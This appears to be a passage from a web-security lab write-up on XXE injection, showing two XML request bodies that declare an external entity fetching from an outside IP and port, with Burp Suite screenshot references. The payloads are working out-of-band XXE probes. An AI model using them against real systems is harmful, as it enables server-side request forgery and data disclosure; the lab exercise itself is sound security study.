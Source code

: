 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.180:1337"> ]>
<root>
<email>test@mail.com</email>
<password>Test123</password>
</root>
```

![Burp Suite - XXE Injection Attempt 1](./assets/screenshots/web_service_and_api_attacks_xxe_injection_burpsuite_xxe_injection_attempt_1.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.180:1337"> ]>
<root>
<email>&somename;</email>
<password>Test123</password>
</root>
```

![Burp Suite - XXE Injection Attempt 2](./assets/screenshots/web_service_and_api_attacks_xxe_injection_burpsuite_xxe_injection_attempt_2.png)
